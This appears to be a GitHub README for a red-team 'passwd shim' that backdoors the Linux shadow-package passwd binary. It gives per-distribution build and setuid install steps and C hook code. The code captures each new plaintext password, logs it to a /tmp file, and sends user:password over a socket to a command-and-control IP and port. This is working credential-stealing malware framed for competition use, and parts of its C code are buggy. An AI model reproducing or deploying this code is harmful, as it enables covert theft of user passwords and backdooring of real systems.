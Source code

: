 # Retreiver Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a C2. It will also write to a file in the /tmp directory as a failover method. 

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04
Centos - 8
Debian - 11

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### Debian - 11
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### CentOS - 8
1. clone shadow git
2. yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install
3. yum install -y autoconf gettext-devel automake 
4. dnf group install "Development Tools"
5. run ./autogen.sh --without-selinux
6. Add Hook (See Hooking passwd.c)
7. sudo make all
6. sudo chmod 4755 passwd

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

    #include <sys/socket.h> 
    #include <arpa/inet.h> 
    #include <unistd.h> 
    #include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. 

    int writetofile (char *password){

        // Get UID
        uid_t uid = geteuid();
        struct passwd * pw = getpwuid(uid);
        
        // Create File + Variables
        FILE * fptr;
        fptr = fopen("/tmp/18432443.tmp", "a"); // Remove for ultra sneak
        char * user;
        char * msg;
        char * msg2;
        char * colon;

        // Write Shit
        if (pw) {
            user = pw->pw_name;
        }
        else {
            user = "unknown";
        }

        if (fptr != NULL) {

            fprintf(fptr, "%s:%s\n", name, password);
            
            // Send Shit //
            // Make Socket
            int sock = 0, valread;
            struct sockaddr_in serv_addr;
            
            // Build String
            strcpy(user, name);
            msg = ("%s", password);
            msg2 = ("%s:", user);
            colon = ':';
            strncat(msg2, &colon, 1);
            strcat(msg2, msg);

            char buffer[1024] = {0};
            fclose(fptr);

            // Error Handling
            if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
                // printf("\n Socket creation error \n");
                return -1;
            }

            serv_addr.sin_family = AF_INET;
            serv_addr.sin_port = htons(PORT);
            
            struct timeval timeout;
            timeout.tv_sec = 3;
            timeout.tv_usec = 0;

            if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
                // puts("Setsockopt failed\n");
                return -1;
            }
            
            if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
                // puts("setsockopt failed\n");
            }


            // Error Handling
            if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
                // puts("\nInvalid address/ Address not supported \n");
                return -1;
            }
            if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
                return -1;
            }

            // Send Message
            send(sock , msg2 , strlen(msg2) , 0 );
            return 0;
        }

        return 0;
    }
